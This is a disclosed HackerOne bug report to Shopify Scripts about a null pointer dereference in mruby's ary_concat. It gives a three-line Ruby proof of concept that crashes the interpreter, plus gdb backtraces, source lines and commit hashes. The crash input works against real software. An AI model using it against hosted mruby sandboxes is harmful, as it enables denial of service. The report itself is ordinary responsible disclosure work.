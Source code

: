 # Null pointer dereference in ary_concat 

## Report Details
- **Report ID**: 214681
- **URL**: https://hackerone.com/reports/214681
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-03-19T15:38:46.502Z
- **Disclosed**: 2017-04-15T14:44:57.417Z

## Reporter
- **Username**: dgaletic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
===
The following demonstrates a crash:

    def f
    end
    [][*@a] = f &:s
    
Debug info
==========
mruby crashes in array.c:260 due to a null pointer dereference.

    256│ ary_concat(mrb_state *mrb, struct RArray *a, struct RArray *a2)
    257│ {
    258│   mrb_int len;
    259│
    260├>  if (a2->len > ARY_MAX_SIZE - a->len) {
    261│     mrb_raise(mrb, E_ARGUMENT_ERROR, "array size too big");

    (gdb) p a 
    $2 = (struct RArray *) 0x0
    
    (gdb) bt
    #0  0x0000000000402eff in ary_concat (mrb=0x6af010, a=0x0, a2=0x6b1290) at /home/user/repos/mruby/src/array.c:260
    #1  0x0000000000403021 in mrb_ary_concat (mrb=0x6af010, self=..., other=...) at /home/user/repos/mruby/src/array.c:279
    #2  0x000000000042228a in mrb_vm_exec (mrb=0x6af010, proc=0x6b13b0, pc=0x718c14) at /home/user/repos/mruby/src/vm.c:2288
    #3  0x000000000041b6d6 in mrb_vm_run (mrb=0x6af010, proc=0x6b13b0, self=..., stack_keep=0) at /home/user/repos/mruby/src/vm.c:823
    #4  0x0000000000423ad8 in mrb_top_run (mrb=0x6af010, proc=0x6b13b0, self=..., stack_keep=0) at /home/user/repos/mruby/src/vm.c:2614
    #5  0x0000000000444ac0 in mrb_load_exec (mrb=0x6af010, p=0x70ce90, c=0x70bae0) at /home/user/repos/mruby/mrbgems/mruby-compiler/core/parse.y:5760
    #6  0x0000000000444b56 in mrb_load_file_cxt (mrb=0x6af010, f=0x70cad0, c=0x70bae0) at /home/user/repos/mruby/mrbgems/mruby-compiler/core/parse.y:5769
    #7  0x0000000000402415 in main (argc=2, argv=0x7fffffffdbc8) at /home/user/repos/mruby/mrbgems/mruby-bin-mruby/tools/mruby/mruby.c:227

    
mruby-engine crashes in vm.c:1210 (`CASE(OP_SEND)`).

    1210├>      m = mrb_method_search_vm(mrb, &c, mid)
        
    (gdb) bt
    #0  mrb_vm_exec (mrb=mrb@entry=0x7ffff2ba74e0, proc=proc@entry=0x7ffff2baec90, pc=0x7ffff2c05f44) at /home/user/repos/mruby-engine/ext/mruby_engine/mruby/src/vm.c:1210
    #1  0x00007ffff4043392 in mrb_vm_run (mrb=0x7ffff2ba74e0, proc=0x7ffff2baec90, self=..., stack_keep=stack_keep@entry=0) at /home/user/repos/mruby-engine/ext/mruby_engine/mruby
    /src/vm.c:820
    #2  0x00007ffff4018b4e in mruby_engine_monitored_eval (data=0x7ffff2ba73e0) at ../../../../ext/mruby_engine/eval_monitored.c:68
    #3  0x00007ffff7bc4184 in start_thread (arg=0x7ffff2ba6700) at pthread_create.c:312
    #4  0x00007ffff6f3a37d in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:111

Test platform
=============
* Arch Linux, updated as of today (2017-03-19)
* Linux Mint 17.3 (Cinnamon 64-bit), built with gcc version 4.8.4 (Ubuntu 4.8.4-2ubuntu1~14.04.3)

mruby SHA: cea6a16cf41b5268a0ad38d1c6ab3140e375f0f3
mruby-engine SHA: 09be20e67888b20bebf9b0588bc3cbec7f55325f

Thank you,
Dinko Galetic
Denis Kasak

## Attachments
- poc
